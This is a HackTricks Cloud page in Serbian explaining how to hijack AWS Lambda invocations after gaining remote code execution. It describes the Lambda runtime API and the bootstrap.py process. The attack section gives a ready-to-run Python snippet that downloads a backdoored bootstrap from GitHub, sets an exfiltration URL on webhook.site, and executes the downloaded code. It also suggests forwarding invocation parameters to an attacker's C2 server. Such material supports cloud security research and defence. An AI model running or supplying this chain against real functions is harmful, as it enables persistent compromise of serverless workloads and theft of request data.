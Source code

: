 # AWS - Ukradi Lambda zahteve

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Lambda Tok

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces van kontejnera koji **šalje pozive** **inicijalnom** procesu.
2. Inicijalni proces osluškuje port **9001** izlažući neke zanimljive endpointove:
* **`/2018-06-01/runtime/invocation/next`** – dobijanje sledećeg događaja poziva
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vraćanje odgovora handlera za poziv
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vraćanje greške izvršenja
3. **bootstrap.py** ima petlju koja dobija pozive od inicijalnog procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje inicijalnom procesu **odgovor**

Imajte na umu da bootstrap učitava korisnički kod kao modul, tako da se svako izvršavanje koda koje obavlja korisnički kod zapravo dešava u ovom procesu.

## Ukradene Lambda Zahteve

Cilj ovog napada je da se natera korisnički kod da izvrši zlonamerni **`bootstrap.py`** proces unutar **`bootstrap.py`** procesa koji obrađuje ranjiv zahtev. Na ovaj način, **zlonamerni bootstrap** proces će početi **komunicirati sa inicijalnim procesom** kako bi obradio zahteve dok je **legitimni** bootstrap **zarobljen** izvršavajući zlonamerni, tako da neće tražiti zahteve od inicijalnog procesa.&#x20;

Ovo je jednostavan zadatak za postizanje jer se kod korisnika izvršava od strane legitimnog **`bootstrap.py`** procesa. Dakle, napadač bi mogao:

* **Poslati lažan rezultat trenutnog poziva inicijalnom procesu**, tako da inicijalni proces misli da bootstrap proces čeka na više poziva.
* Zahtev mora biti poslat na **`/${invoke-id}/response`**&#x20;
* invoke-id se može dobiti iz steka legitimnog **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao što je [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ili jednostavno ponovnim zahtevanjem ka **`/2018-06-01/runtime/invocation/next`** (kao što je [predloženo ovde](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Izvršiti zlonamerni **`boostrap.py`** koji će obraditi sledeće pozive
* Radi prikrivenosti, moguće je poslati parametre lambda poziva ka kontrolisanom C2 napadača, a zatim obraditi zahteve kao i obično.
* Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github-a**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zlonamerni kod i pokrenuti ga iz trenutnog lambda poziva.

### Koraci Napada

1. Pronađite **RCE** ranjivost.
2. Generišite **zlonamerni** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Izvršite** zlonamerni bootstrap.

Ove akcije možete lako izvršiti pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija pogledajte [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Reference

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)
